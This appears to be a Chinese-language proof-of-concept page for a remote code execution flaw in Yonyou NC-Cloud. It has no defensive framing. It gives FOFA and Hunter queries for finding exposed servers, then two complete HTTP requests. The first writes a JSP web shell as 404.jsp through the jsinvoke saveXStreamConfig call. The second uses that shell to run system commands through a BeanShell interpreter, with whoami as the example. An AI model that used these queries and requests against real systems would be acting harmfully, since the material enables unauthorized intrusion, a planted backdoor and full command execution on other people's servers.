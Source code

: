 # 用友 NC-Cloud RCE
## 资产搜索
fofa app="用友-NC-Cloud"  
Hunter web.body="uap/rbac"  
![](img/NC-Cloud.png)
## POC
- 第一段:
```POST
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 247

{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/404.jsp"]}
```   
![](img/NC-Cloud-poc1.png)   
执行后有两种结果，一种是404了，另一种是200，经测试这两种回显都是上传成功。
- 第二段:
```POST
POST /404.jsp?error=bsh.Interpreter HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 96

cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream())
```   
![](img/NC-Cloud-poc2.png)

